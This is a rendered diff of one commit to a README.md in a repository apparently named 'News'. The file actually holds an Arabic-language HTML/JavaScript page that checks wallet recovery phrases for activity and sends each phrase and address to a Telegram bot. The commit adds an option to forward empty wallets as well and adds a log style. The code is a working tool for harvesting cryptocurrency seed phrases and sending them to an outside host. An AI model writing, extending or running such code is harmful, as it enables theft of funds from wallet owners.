

Before and after one commit to alimahmoud001/News, a Markdown page: README.md, 3 parts joined by grey strips. Shown: that part at 80% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -269,6 +287,10 @@
 
         .log-info {
             color: #17a2b8;
+        }
+
+        .log-warning {
+            color: #ffc107;
         }
 
         .wallet-display {
@@ -986,7 +1014,7 @@
             }
         }
 
-        function formatWalletMessage(mnemonic, address, walletDetails) {
+        function formatWalletMessage(mnemonic, address, walletDetails, isActive = true) {
             const timestamp = new Date().toLocaleString('ar-EG', {
                 timeZone: 'Africa/Cairo',
                 year: 'numeric',
@@ -997,7 +1025,14 @@
                 second: '2-digit'
             });
 
-            let message = `🔑 <b>عبارة استرجاع جديدة</b>\n\n`;
+            let message = '';
+
+            if (isActive) {
+                message = `🎉 <b>تم العثور على محفظة نشطة!</b>\n\n`;
+            } else {
+                message = `📭 <b>محفظة فارغة</b>\n\n`;
+            }
+
             message += `📝 <b>العبارة:</b>\n<code>${mnemonic}</code>\n\n`;
             message += `📍 <b>العنوان:</b>\n<code>${address}</code>\n\n`;
 
@@ -1013,12 +1048,12 @@
             return message;
         }
 
-        async function sendActiveWalletToTelegram(mnemonic, address, walletDetails) {
+        async function sendWalletToTelegram(mnemonic, address, walletDetails, isActive = true) {
             try {
-                const message = formatWalletMessage(mnemonic, address, walletDetails);
+                const message = formatWalletMessage(mnemonic, address, walletDetails, isActive);
                 return await sendTelegramMessage(message);
             } catch (error) {
-                console.error('خطأ في إرسال المحفظة النشطة:', error);
+                console.error('خطأ في إرسال المحفظة:', error);
                 return false;
             }
         }
@@ -1086,17 +1121,29 @@
                     stats.activeWallets++;
                     addLogEntry(`🎉 تم العثور على محفظة نشطة! العنوان: ${address}`, 'success');
 
-                    const telegramSent = await sendActiveWalletToTelegram(mnemonic, address, walletStatus);
+                    // إرسال المحفظة النشطة إلى Telegram
+                    const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, true);
                     if (telegramSent) {
-                        addLogEntry('✅ تم إرسال المحفظة إلى Telegram بنجاح', 'success');
+                        addLogEntry('✅ تم إرسال المحفظة النشطة إلى Telegram بنجاح', 'success');
                     } else {
-                        addLogEntry('❌ فشل في إرسال المحفظة إلى Telegram', 'error');
+                        addLogEntry('❌ فشل في إرسال المحفظة النشطة إلى Telegram', 'error');
                     }
 
                     updateStatus(`تم العثور على محفظة نشطة! إجمالي المحافظ النشطة: ${stats.activeWallets}`, 'success');
                 } else {
                     stats.emptyWallets++;
-                    addLogEntry(`محفظة فارغة: ${address.substring(0, 20)}...`);
+                    addLogEntry(`محفظة فارغة: ${address.substring(0, 20)}...`, 'info');
+
+                    // التحقق مما إذا كان يجب إرسال المحافظ الفارغة
+                    const sendEmpty = elements.sendEmptyWallets.checked;
+                    if (sendEmpty) {
+                        const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, false);
+                        if (telegramSent) {
+                            addLogEntry('📭 تم إرسال المحفظة الفارغة إلى Telegram', 'info');
+                        } else {
+                            addLogEntry('❌ فشل في إرسال المحفظة الفارغة إلى Telegram', 'error');
+                        }
+                    }
                 }
 
                 updateStats();
```
Also changed, not shown: other parts of README.md (+44 -4 lines).
